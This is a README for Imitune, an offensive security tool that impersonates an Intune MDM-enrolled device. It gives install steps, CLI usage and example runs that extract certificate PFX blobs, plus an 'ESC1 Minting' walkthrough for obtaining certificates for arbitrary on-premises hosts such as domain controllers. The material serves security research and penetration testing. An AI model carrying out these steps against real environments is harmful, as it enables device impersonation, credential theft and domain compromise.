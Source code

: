 # Imitune

[![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
[![Python Version](https://img.shields.io/badge/python-3.12+-blue.svg)](https://python.org)
[![PyPI Version](https://img.shields.io/badge/pypi-v0.2.0-green.svg)](https://pypi.org/project/imitune/)
[![Last Commit](https://img.shields.io/github/last-commit/hotnops/Imitune)](https://github.com/hotnops/Imitune)
[![GitHub Stars](https://img.shields.io/github/stars/hotnops/Imitune?style=social)](https://github.com/hotnops/Imitune)

An OMA-DM client and set of helper tools to impersonate an MDM managed device for security research and penetration testing.

## 📋 Table of Contents

- [Overview](#overview)
- [⚠️ Important Notice](#️-important-notice)
- [Installation](#installation)
  - [Prerequisites](#prerequisites)
  - [Install via PyPI](#install-via-pypi)
- [Usage](#usage)
  - [Basic Usage](#basic-usage)
  - [Command Line Arguments](#command-line-arguments)
- [ESC1 Minting](#esc1-minting)
- [Troubleshooting](#troubleshooting)
- [Contributing](#contributing)
- [License](#license)

## Overview

Imitune enables security researchers and penetration testers to simulate MDM (Mobile Device Management) enrolled devices by implementing an OMA-DM client that can communicate with Microsoft Intune. This tool is particularly useful for testing MDM security configurations and understanding device management workflows.

> **⚠️ Important**: This tool works best when you already have a working knowledge of the environment and can provide as much detail about the target environment as possible.

## Installation

### Prerequisites

- Python 3.12 or higher
- pip package manager

### Install via PyPI

It's recommended to use virtual environments to avoid dependency conflicts:

```bash
# Create project directory and virtual environment
mkdir imitune-ops
cd imitune-ops
python -m venv venv
```

**Activate the virtual environment:**

On Windows:

```cmd
venv\Scripts\activate.bat
```

On Linux/macOS:

```bash
source venv/bin/activate
```

**Install Imitune:**

```bash
pip install imitune
```

## Usage

1. Obtain an MDM certificate for an Intune management device
   See our blog post here on how to accomplish this step:
   https://specterops.io/blog/2025/07/30/entra-connect-attacker-tradecraft-part-3/
2. Copy the managementTree.json.template to managementTree.json. This represents all of your device settings and you should closely examine and modify the properties to your use case. Of note:
   DNSComputerName is the display name that will be presented in the Intune admin panel

```
"./DevDetail/Ext/Microsoft/DNSComputerName": "DEVICES BY HOTNOPS",
```

DeviceName is the value that will be used to populate the {{fullyQualifiedDomainName}} and {{deviceName}} properties

```
"./DevDetail/Ext/Microsoft/DeviceName": "DC02",
```

The ./Vendor/MSFT/NodeCache/MS%20DM%20Server/CacheVersion is very important. Modifying this field will trigger a re-sync of all cached properties in Intune.

3. Run an init commanad

```bash
python -m imitune
--device-name DEVICE_NAME // This is only used for the source field of the OMA-DM message. Values in the managementTree.json file will be used for all management tree values
--pfx-file-path PFX_FILE_PATH // Path to the MDM certificate
--pfx-password // Password to the PFX file in the previous argument
--dummy-path // for testing, takes in a series of XML requests and respones from SyncMLViewer
--user-prompt // prompt the user before each request is sent
--output-directory // Output directory for loot and trace files. Uses --device-name if not provided
--user-jwt // Pass in a user JWT with management.microsoft.com aud to imitate a user logged into the device. This will help obtain configuration profiles scoped to individual users
```

Example:

```bash
python -m imitune --device-name TEST --pfx-file-path .\mdm-certificate.pfx --pfx-password il0veC3rts$ --action init


██╗███╗   ███╗██╗████████╗██╗   ██╗███╗   ██╗███████╗
██║████╗ ████║██║╚══██╔══╝██║   ██║████╗  ██║██╔════╝
██║██╔████╔██║██║   ██║   ██║   ██║██╔██╗ ██║█████╗
██║██║╚██╔╝██║██║   ██║   ██║   ██║██║╚██╗██║██╔══╝
██║██║ ╚═╝ ██║██║   ██║   ╚██████╔╝██║ ╚████║███████╗
╚═╝╚═╝     ╚═╝╚═╝   ╚═╝    ╚═════╝ ╚═╝  ╚═══╝╚══════╝
              [ I M I T U N E ]

[*] loading existing data from managementTree.json
[*] got a request for ./Device/Vendor/MSFT/ClientCertificateInstall/PFXCertInstall/5E9C6770-6D2E-4602-8ACA-B3418B1182BE/Status. sending 0
```

This tells is a desired response and tells us that Intune is asking about a particular certificate, and Imitune replied with an empty data response. This will trigger intune to send us a new ceritificate the next time we check in. If you modified the ./DevDetail/Ext/Microsoft/DeviceName parameter, wait for five minutes so that the request can be sent to the Intune Certificate Connector and returned. Once enough time has passed, re-run the command:

```bash
python -m imitune --device-name TEST --pfx-file-path .\mdm-certificate.pfx --pfx-password il0veC3rts$ --action init

██╗███╗   ███╗██╗████████╗██╗   ██╗███╗   ██╗███████╗
██║████╗ ████║██║╚══██╔══╝██║   ██║████╗  ██║██╔════╝
██║██╔████╔██║██║   ██║   ██║   ██║██╔██╗ ██║█████╗
██║██║╚██╔╝██║██║   ██║   ██║   ██║██║╚██╗██║██╔══╝
██║██║ ╚═╝ ██║██║   ██║   ╚██████╔╝██║ ╚████║███████╗
╚═╝╚═╝     ╚═╝╚═╝   ╚═╝    ╚═════╝ ╚═╝  ╚═══╝╚══════╝
              [ I M I T U N E ]

[*] loading existing data from managementTree.json
[*] obtained credentials at ./Device/Vendor/MSFT/ClientCertificateInstall/PFXCertInstall/5E9C6770-6D2E-4602-8ACA-B3418B1182BE/PFXCertBlob. extracting
```

And you'll see that we have a PFX file saved in our output directory. You can use this PFX file with Rubeus to impersonate the device on-premises.

## ESC1 Minting

If a property in the managementTree is used to populate the subject or SAN of a certificate, we can mint certificates for any on premises device we want. To do so, we'll need to modify our managementTree.json and set the CacheVersion to 0

```
"./Vendor/MSFT/NodeCache/MS%20DM%20Server/CacheVersion": "0",
```

Also, remove any line that starts with

```
./Device/Vendor/MSFT/ClientCertificateInstall/PFXCertInstall
```

We remove these so that when Intue asks about them, we respond with a 404 and indicate that they need to be sent back down. Lastly, we need to rename our device to the target of our ESC1 attack:

```
"./DevDetail/Ext/Microsoft/DeviceName": "DOMAINCONTROLLER",
```

Once our managementTree.json is ready, we will initiate our sync with the invalid CacheVersion. Intune will proceed to send down the entire node cache and inquire about the certs that need to be installed.

```bash
python -m imitune --device-name TEST --pfx-file-path .\mdm-certificate.pfx --pfx-password il0veC3rts$ --action init
```

It will take up to five minutes for the CSR request to be sent to the ADCS server and returned. After waiting, re-run the command (without modifying the managementTree.json!) and the certificate should be returned.

## Troubleshooting

- Trace files
  Imitune saves all requests and responses in the $outputDir\traces folder. You can use these to determine what Intune is asking for and tweak any values in the managementTree.json file.
- Intune is resonding to my first request with an empty response
  You don goofed. This happened to me so so many times when developing this. Figure out what you sent that broke Intune, wait 30 minutes, and try again.
